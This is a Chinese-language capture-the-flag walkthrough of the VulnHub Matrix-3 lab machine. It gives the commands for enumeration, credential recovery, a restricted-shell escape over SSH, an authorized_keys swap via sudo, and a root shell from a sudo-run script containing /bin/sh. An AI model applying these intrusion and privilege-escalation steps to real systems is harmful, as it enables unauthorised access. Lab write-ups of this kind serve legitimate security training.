

# Matrix-3

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Matrix-3（IP：192.168.56.109）

下载：https://www.vulnhub.com/entry/matrix-3,326/

## Let's go

```
nmap -p- -A 192.168.56.109
```


> **审查网页发现兔子，并且提供了有用的信息**


> **由于目录太深这里我直接使用wget递归下载**

```
wget -r -l 0 http://192.168.56.109/Matrix/
tree Matrix | grep -v index.html
```


```
file secret.gz
cat secret.gz
```


> **使用用户名和密码成功登录7331端口，然而并没有发现什么信息，我们进行枚举**

```
dirb http://192.168.56.109:7331/ -u admin:passwd
```


> **发现是DOS文件，使用IDA查看得到 guest:7R1n17yN30**




> **尝试SSH登陆发现得到受限shell，因此使用-t "bash --noprofile"重新登陆**

```
ssh guest@192.168.56.109 -p 6464 -t "bash --noprofile"
```


```
sudo -l
```


```
sudo -u trinity cp authorized_keys /home/trinity/.ssh/authorized_keys
ssh trinity@127.0.0.1 -p 6464
```


```
sudo -l
```


> **然而并没有发现该文件，因此我们可以创建并执行它**

```
echo '/bin/sh' > oracle
chmod 777 oracle
sudo ./oracle
```


```
cat flag.txt
```

